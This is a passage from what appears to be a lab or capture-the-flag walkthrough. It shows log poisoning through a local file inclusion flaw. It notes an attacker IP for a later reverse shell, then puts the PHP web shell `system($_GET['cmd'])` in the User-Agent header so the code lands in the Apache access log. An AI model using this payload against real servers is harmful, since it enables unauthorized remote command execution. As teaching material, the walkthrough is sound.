 - In this case, it's:

```bash
10.9.0.160
```

- Make a note of this IP address, as we'll use it to create a reverse shell back to our machine in the next step.

### 💉 2.7 Sending PHP Payload through a User-Agent (Log Poisoning)
> After we've confirmed that the `/var/log/apache2/access.log` file can be read through LFI and our request is logged—including the entire line— `User-Agent`—We'll use Log Poisoning to inject PHP code into the log file.

19. 🛠 Payload Step
- In the Repeater tab:
- We'll need to remove the agent (User-Agent).

![user-agent](images/10.png)

20. Next, we'll modify the User-Agent to:

```bash
<?php system($_GET['cmd']); ?>
```

![user-agent](images/11.png)
